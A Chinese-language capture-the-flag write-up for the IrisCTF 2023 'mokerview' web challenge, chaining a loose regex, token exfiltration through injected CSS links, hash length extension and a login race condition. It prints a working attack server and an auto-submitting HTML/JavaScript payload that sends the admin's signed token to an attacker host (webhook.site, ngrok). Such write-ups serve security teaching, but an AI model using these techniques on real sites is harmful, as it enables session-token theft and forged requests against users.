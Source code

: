# 题目描述

Classic bug combo pack

Admin will visit your URL after logging in.

# 解决方案

首先关注view函数，如下：

```python
@app.route("/view", methods=["GET"])
@session
def view(session):
    style = request.args.get("style", "/static/plain.css")
    if not STYLE_PATTERN.match(style):
        return "Bad style link"

    mokers = "<br>".join(f"<img src={imgur(moker)} referrerpolicy=no-referrer class=moker></img>" for moker in users[session["user"]]["mokers"])
    styles = " ".join(f"<a href=/view?style=/static/{s}>{s}</a>" for s in STYLES)
    return f"<!DOCTYPE html><html><head><link rel=stylesheet href={style}></head><body>{header(session)}<br>Use Some Styles: {styles}<br>Your'e Mokers: <br><br>{mokers}</body></html>"
```

其中style是我们控制，只要满足STYLE_PATTERN即可，这里有一个很容易疏忽的点，看正则表达式如下：

```python
STYLE_PATTERN = re.compile("^[A-Za-z0 -9./]+$")
```

注意这里不是`0-9`，而是` -9`，即空格到9，其中包含大量的特殊符号，因此我们在style中加入特殊符号也是满足正则表达式的；利用这一漏洞我们可以构造泄露token的style，比如设置style为`"//webhook.site/8096b06f-0c59-463a-8266-ae9605411c64/`，这样style后的html（直到`"`为止）会作为HTTP路径发送到我们的服务器上，我们看`header(session)`部分：

```python
def header(session):
    sign = signer(session)

    return f"<a href='{sign('/logout')}'>Logout</a> <a href='/view'>My Mokers</a> <a href='/add'>Add a Moker</a> <a href='/create'>Create a new Moker</a> <a href='/delete'>Remove Moker</a>\
<form id='add' method='POST' action='{sign('/add?daily=1')}'><input type='submit' value='*Add \"Moker of the Day\"*'/></form>"
```

直到Add后边的`"`为止的html都会发送到我们指定的服务器上，如果我们让admin bot访问这个url，我们就能拿到admin对`/add?daily=1`这一路径的签名。

但是仅仅有`/add?daily=1`还不够，我们需要`/add?daily=1&moker=flagmoker`的签名，这个时候可以使用[hashpump](https://github.com/bwall/HashPump)进行hash长度扩展攻击，拿到想要的签名；

我们可以分析add函数的源码，如下：

```python
@app.route("/add", methods=["POST"])
@csrf
@session
def add(session):
    moker = request.args.get("moker", None)
    if moker is None:
        if request.args.get('daily', False):
            moker = MOKEROFTHEDAY
    if (moker == "flagmoker" and session["user"] != "@admin") or moker not in MOKERS:
        return "Invalid moker"

    if requests.get(imgur(MOKERS[moker])).status_code != 200:
        return "This moker is not avaliable at this time"

    if(len(users[session["user"]]["mokers"]) > 30):
        # this is too many mokers for one person. you don't need this many
        users[session["user"]]["mokers"].clear()
    users[session["user"]]["mokers"].append(MOKERS[moker])
    return redirect("/view")
```

可以看到，最后moker添加到`session['user']`中，然后在源码中找到修改`session['user']`的函数，即login函数，如下所示：

```python
@app.route("/login", methods=["POST"])
def login():
    user = request.form.get("user", "")
    password = request.form.get("password", "")
    if user not in users:
        return "No user"
    if users[user]["password"] == password:
        response = make_response(redirect("/view"))
        sid = request.cookies.get("session", secrets.token_hex(16))
        sessions[sid].clear()
        response.set_cookie("session", sid, httponly=True)
        sessions[sid]["user"] = user
        sessions[sid]["key"] = secrets.token_bytes(16)
        return response
    return "Invalid user/pass"
```

可以看到sid和user是用户控制的，因此我们可以让admin bot连续访问发送login和add的请求，通过竞争条件，使得flagmoker添加到指定user的moker列表中，我们可以通过运行一个HTTP服务器，维护一个内嵌攻击脚本的网页，来综合上述所有步骤，攻击服务器代码如下：

```python
from flask import Flask, request, redirect, make_response, send_from_directory
import subprocess

app = Flask(__name__)

state = {"token": ""}

@app.errorhandler(404)
def handle404(e): # 404 is caused by token leak clobber
    u = request.url
    u = u.split("token=")[-1].split("%27")[0]
    if not u.isalnum():
        return "404"
    print("token", u)
    # use hashpump to grab the new token
    state["token"] = subprocess.check_output(["hashpump", "-k", "16", "-d", "/add?daily=1", "-a", "&moker=flagmoker", "-s", u]).decode().split("\n")[0]
    print("new", state["token"])
    return "OK"

@app.route("/token") # get the current forged token
def token():
    r = make_response(state["token"])
    r.headers["Access-Control-Allow-Origin"] = "*"
    return r

with open("sol.html") as f:
    SOL = f.read()

USER = "testingflagajsdafjha" # create the user first
# converts input into form //a.ngrok.io/
NGROK = input("base: ").split("https:")[1] + "/"
SOL = SOL.replace("{USER}",USER).replace("{NGROK}",NGROK)

@app.route("/index.html")
def index():
    return SOL

app.run(port=1337)
```

sol.html的内容如下：

```html
<!DOCTYPE html>
<html>
<body>
        <!-- view clobber -->
        <form id="f1" action="https://mokerview-web.chal.irisc.tf/view" target="_blank">
            <input type="hidden" name="style" value='"{NGROK}'></form>
        <!-- forged /add goes here -->
        <form id="f2" action="NONE" method="POST" target="_blank"></form>
        <!-- login to your user -->
        <form id="f3" action="https://mokerview-web.chal.irisc.tf/login" method="POST" target="_blank">
            <input type="hidden" name="user" value="{USER}"><input type="hidden" name="password" value="{USER}"></form>
<script>
let f1 = document.getElementById("f1");
f1.submit();
new Promise(r => setTimeout(r, 500)).then(_ => {
let base = "https://mokerview-web.chal.irisc.tf/add?args=ZGFpbHk9MYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4CZtb2tlcj1mbGFnbW9rZXI%3D&token=";
    fetch("https://{NGROK}token").then(d => d.text()).then(token => {
    let url = base + token;
    let f2 = document.getElementById("f2");
    f2.action = url;
    let f3 = document.getElementById("f3");
    f2.submit();
    f3.submit();
})
});
</script>
</body>
</html>
```

```
irisctf{moker_loves_race_conditions}
```

参考链接：

- https://github.com/Seraphin-/ctf/blob/master/irisctf2023/mokerview.md